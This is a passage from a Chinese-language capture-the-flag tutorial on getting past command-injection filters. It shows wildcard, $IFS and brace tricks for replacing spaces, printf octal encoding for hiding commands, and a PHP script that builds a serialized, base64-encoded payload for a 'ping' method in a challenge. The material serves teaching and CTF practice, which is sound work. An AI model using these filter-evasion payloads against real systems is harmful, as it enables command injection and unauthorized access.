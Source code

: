    [![p9w467n.png](https://s1.ax1x.com/2023/05/08/p9w467n.png)](https://imgse.com/i/p9w467n)

6. $?~*$绕过

   $?$匹配任意一个字符，$*$匹配一个或多个字符；

   ```
   cat fl?g.?x?
   cat *lag.tx*
   ```

   [![p9w4Lh6.png](https://s1.ax1x.com/2023/05/08/p9w4Lh6.png)](https://imgse.com/i/p9w4Lh6)

7. 空格绕过

   空格可以用$\$IFS~\$\{IFS\}~\$IFS\$1~<~<>$符号替代；

   或者使用$\{\}$来括起命令从而省略空格；

   仅使用$\$IFS$时需要使用引号括起文件名；

   $\$IFS\$1$中可以是任何数字；

   $<~<>$使用较少，因为它们本身也是Linux的命令符号，可能导致命令解析错误；

   ```
   cat$IFS'flag.txt'
   cat${IFS}flag.txt
   cat<flag.txt
   cat<>flag.txt
   {cat,flag.txt}
   ```

   [![p9wI1Zd.png](https://s1.ax1x.com/2023/05/08/p9wI1Zd.png)](https://imgse.com/i/p9wI1Zd)

8. printf绕过

   $printf$格式化输出，可以将十六进制或八进制值转化为ASCII码输出；

   $()和``会先执行其包含的命令字符串，再将执行结果当做Linux命令执行；
   
   ```
   \NNN 
\xHH
   ```
   
   ```
   printf "\154\163"
   $(printf "\154\163")
   ```
   
   [![p9094gg.md.png](https://s1.ax1x.com/2023/05/08/p9094gg.md.png)](https://imgse.com/i/p9094gg)

### 构造payload

于是我们可以将“$ls$”命令构造成“$l\$*s$”，再进行序列化，base64编码等操作得到payload。

```php
<?php
    class ease{
    public $method;
    public $args;
    function __construct($method, $args){
        $this->method = $method;
        $this->args = $args;
    }
}
$e = new ease("ping", array("l$*s"));#注意结合代码分析，$args需要是数组类型
$f = serialize($e);
echo $f . "<br>";
echo base64_encode(serialize($e));
?>
```
